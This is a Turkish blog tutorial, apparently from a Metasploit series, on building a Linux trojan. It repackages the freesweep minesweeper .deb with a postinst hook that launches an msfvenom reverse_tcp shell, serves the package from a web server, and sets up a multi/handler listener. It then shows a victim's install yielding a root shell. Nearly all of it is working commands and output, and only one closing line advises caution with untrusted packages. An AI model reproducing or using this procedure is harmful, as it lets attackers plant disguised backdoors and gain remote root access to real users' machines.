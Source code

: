 ```yaml
---
draft: false

title:  'MSF Binary Linux Trojan'
date: '2017-05-20T13:12:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "İstemci taraflı saldırılara örnek olarak bir önceki yazımızda Windows platformu için\_.exe\_uzantılı bir çalıştırılabilir dosya oluşturmuştuk. Linux işletim sistemlerinin kullandığı tıkla ve çalıştır dosya tiplerinde de dosya oluşturabiliriz. Bu yazıda,\_.deb\_uzantılı bir dosya oluşturacağız." 
 
url:  /tr/msf-binary-linux-trojan/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



İstemci taraflı saldırılara örnek olarak bir önceki yazımızda Windows platformu için `.exe` uzantılı bir çalıştırılabilir dosya oluşturmuştuk. Linux işletim sistemlerinin kullandığı tıkla ve çalıştır dosya tiplerinde de dosya oluşturabiliriz. Bu yazıda, `.deb` uzantılı bir dosya oluşturacağız.



Ubuntu işletim sistemini hedef alan bu dosyanın oluşturulması ilk olarak biraz karışık gelebilir ancak adımları teker teker inceleyerek devam ederseniz kavramak daha kolay olacaktır.



Öncelikle, içine payload yerleştireceğimiz bir programa ihtiyacımız var. Örnek olarak “Mine Sweeper” programını kullanalım.



## Paketi indirelim



Paketi `--download-only` parametresiyle indirdiğimizde, işletim sistemimize kurulmayacaktır. Daha sonra indirdiğimiz paketi üzerinde çalışmak üzere oluşturacağımız `/tmp/evil` klasörüne taşıyacağız.


```bash
root@kali:~# apt-get --download-only install freesweep
Reading package lists... Done
Building dependency tree
Reading state information... Done
...snip...
root@kali:~# mkdir /tmp/evil
root@kali:~# mv /var/cache/apt/archives/freesweep_0.90-1_i386.deb /tmp/evil
root@kali:~# cd /tmp/evil/
root@kali:/tmp/evil#
```



Artık `/tmp/evil` klasörünün içerisinde `freesweep_0.90-1_i386.deb` isimli bir Debian paketimiz var. İndirdiğiniz .deb uzantılı dosyanın ismi ve sürüm numarası farklı olabilir. İsmini `ls` komutuyla kontrol ederek örneklerdeki komutlara o şekilde uygulamalısınız.



## Paketi Açalım



Şimdi bu `.deb` uzantılı paketi, sıkıştırılmış bir dosyayı açmaya benzer şekilde açmamız gerekiyor. Bu paketi aşağıdaki komutla `/tmp/evil` klasörü içinde `work` klasörüne çıkartıyoruz. Ardından, bizim ilave edeceğimiz özelliklerin bulunacağı `DEBIAN` isimli bir klasörü `/tmp/evil/work` klasörü altına oluşturuyoruz.


```bash
root@kali:/tmp/evil# dpkg -x freesweep_0.90-1_i386.deb work
root@kali:/tmp/evil# mkdir work/DEBIAN
```



## control Dosyası oluşturalım



Debian klasörünün içerisinde `control` isimli bir dosya oluşturup içerisine aşağıdaki Metni yapıştırıp kaydediyoruz. Dosya içeriği aşağıdaki gibi `cat control` komutuyla kontrol ediyoruz.



**control** dosyası içeriği


```bash
Package: freesweep
Version: 0.90-1
Section: Games and Amusement
Priority: optional
Architecture: i386
Maintainer: Ubuntu MOTU Developers (ubuntu-motu@lists.ubuntu.com)
Description: a text-based minesweeper
 Freesweep is an implementation of the popular minesweeper game, where
 one tries to find all the mines without igniting any, based on hints given
 by the computer. Unlike most implementations of this game, Freesweep
 works **in **any visual text display - **in **Linux console, **in **an xterm, and **in
 **most text-based terminals currently **in **use.
```



## postinst dosyası oluşturalım



Kurulum sonrası çalışması için ayrıca bir bash script dosyasına daha ihtiyacımız var. Yine yukarıdaki gibi `DEBIAN` klasörü içine `postinst` isimli bir dosya oluşturuyoruz. İçerisine aşağıdaki kod satırlarını yapıştırıyoruz.



**postinst** dosya içeriği


```bash
#!/bin/sh

sudo chmod 2755 /usr/games/freesweep_scores && /usr/games/freesweep_scores &amp; /usr/games/freesweep &amp;
```



## Payload Oluşturalım



Şimdi içerisinde zararlı kodların olduğu dosyayı oluşturabiliriz. Bunun için aşağıdaki komutu kullanarak `linux/x86/shell/reverse_tcp` payload modülünü kullanacağız. Komut içerisinde `LHOST` ve `LPORT` olarak verdiğimiz değişkenleri kendiniz belirleyebilirsiniz.


```bash
root@kali:~# msfvenom -a x86 --platform linux -p linux/x86/shell/reverse_tcp LHOST**=**192.168.1.101 LPORT**=**443 -b "\x00" -f elf -o /tmp/evil/work/usr/games/freesweep_scores
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 98 (iteration**=**0)
x86/shikata_ga_nai chosen with final size 98
Payload size: 98 bytes
Saved as: /tmp/evil/work/usr/games/freesweep_scores
```



## Yeniden paketleme



Artık, `postinst` dosyamızı çalıştırılabilir hale getirip `.deb` paketini derleyebiliriz. Komut sonucunda oluşturulacak `work.deb` paketinin ismini `freesweep.deb` olarak değiştirip Apache Server klasörüne (`/var/www` veya `/var/www/html`) yükleyebiliriz. Artık dosyamız Web sunucuda indirilebilir durumdadır.


```bash
root@kali:/tmp/evil/work/DEBIAN# chmod 755 postinst
root@kali:/tmp/evil/work/DEBIAN# dpkg-deb --build /tmp/evil/work
dpkg-deb: building package `freesweep' in `/tmp/evil/work.deb'.
root@kali:/tmp/evil# mv work.deb freesweep.deb
root@kali:/tmp/evil# cp freesweep.deb /var/www/
```



## Dinleyici Handler Oluşturma



Şimdi, bir tıklama veya çalıştırma ile gelecek bağlantı isteklerini dinlemek için dinleyici oluşturalım. Burada komuta vereceğimiz `LHOST` ve `LPORT` değerleri, payload oluştururken girilen değerler ile aynı olmalıdır.


```bash
root@kali:~# msfconsole -q -x "use exploit/multi/handler;set PAYLOAD linux/x86/shell/reverse_tcp; set LHOST 192.168.1.101; set LPORT 443; run; exit -y"
PAYLOAD => linux/x86/shell/reverse_tcp
LHOST => 192.168.1.101
LPORT => 443
> Started reverse handler on 192.168.1.101:443
> Starting the payload handler...
```



## Sonuç



Herhangi bir kullanıcı, bu hazırladığımız `freesweep.deb` paketini indirip çalıştırdığında dinleme yapan `exploit/multi/handler` modülümüz hedef bilgisayarda oturum açacaktır.


```bash
ubuntu@ubuntu:~$ wget <a href="http://192.168.1.101/freesweep.deb">http://192.168.1.101/freesweep.deb</a>
ubuntu@ubuntu:~$ sudo dpkg -i freesweep.deb

> Sending stage (36 bytes)
> Command shell session 1 opened (192.168.1.101:443 -> 192.168.1.175:1129)

ifconfig
eth1 Link encap:Ethernet HWaddr 00:0C:29:C2:E7:E6
inet addr:192.168.1.175 Bcast:192.168.1.255 Mask:255.255.255.0
UP BROADCAST RUNNING MULTICAST MTU:1500 Metric:1
RX packets:49 errors:0 dropped:0 overruns:0 frame:0
TX packets:51 errors:0 dropped:0 overruns:0 carrier:0
collisions:0 txqueuelen:1000
RX bytes:43230 (42.2 KiB) TX bytes:4603 (4.4 KiB)
Interrupt:17 Base address:0x1400
...snip...

hostname
ubuntu
id
uid**=**0(root) gid**=**0(root) groups**=**0(root)
```



## Tavsiye



Görüldüğü gibi zararlı yazılımlar sadece Windows’a özel değildir. Linux kullanıcılarının da tıkla ve çalıştır programlara dikkatle yaklaşması gerekmektedir. Güvenilir olmayan kaynaklardan paket yüklememenizi tavsiye ediyoruz.
